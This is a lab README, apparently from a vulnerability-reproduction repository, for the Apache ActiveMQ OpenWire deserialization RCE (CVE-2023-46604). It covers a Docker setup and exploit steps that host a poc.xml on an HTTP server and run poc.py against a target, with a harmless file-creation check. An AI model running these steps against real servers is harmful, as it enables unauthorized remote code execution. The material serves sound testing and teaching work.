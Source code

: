 # Apache ActiveMQ OpenWire Protocol Deserialization RCE (CVE-2023-46604)

Apache ActiveMQ is an open source messaging middleware developed by the American Pachitea (Apache) Software Foundation that supports Java messaging services, clustering, Spring framework, and more.

OpenWire protocol is designed by ActiveMQ, to allow native access to ActiveMQ from a number of different languages and platforms. Apache ActiveMQ prior to 5.18.2 was affected by a deserialization vulnerability. This vulnerability may allow remote attackers with network access privileges to execute arbitrary shell commands by manipulating the serialized class types in the OpenWire protocol, leading to the instantiation of any class on the classpath of the agent.

References:

- <https://activemq.apache.org/news/cve-2023-46604>
- <https://xz.aliyun.com/t/12929>
- <https://boogipop.com/2023/11/03/Apache%20ActiveMQ%20CVE-2023-46604%20RCE%20%E5%88%86%E6%9E%90/>
- <https://forum.butian.net/share/2566>

## Environment setup

ActiveMQ listens to following 2 ports:

| Default port | Default Condition                    |
|--------------|--------------------------------------|
| 8161 (web)   | Remote access requires configuration |
| 61616 (tcp)  | Remote access allowed                |

The deserialization issue exists in the port 61616.

Enter following commands to run a ActiveMQ 5.17.3 server:

```
docker compose up -d
```

Please access `http://your-ip:8161` to confirm that the service has started successfully before exploitation, although we only need to use the port 61616 after that.

## Exploit

You can quickly start an HTTP server in the folder where the [poc.xml](poc.xml) file is located using the Python3 http.server module:

```shell
python3 -m http.server 6666
```

Then execute the [poc.py](poc.py):

```shell
python3 poc.py target port http://ip of http server/poc.xml
```

You can check inside the ActiveMQ container using the following command:

```
docker exec cve-2023-46604-activemq-1 ls -l /tmp
```

If you see the output showing that touch /tmp/activeMQ-RCE-success has been executed successfully, then the exploit has worked.

![01.png](01.png)

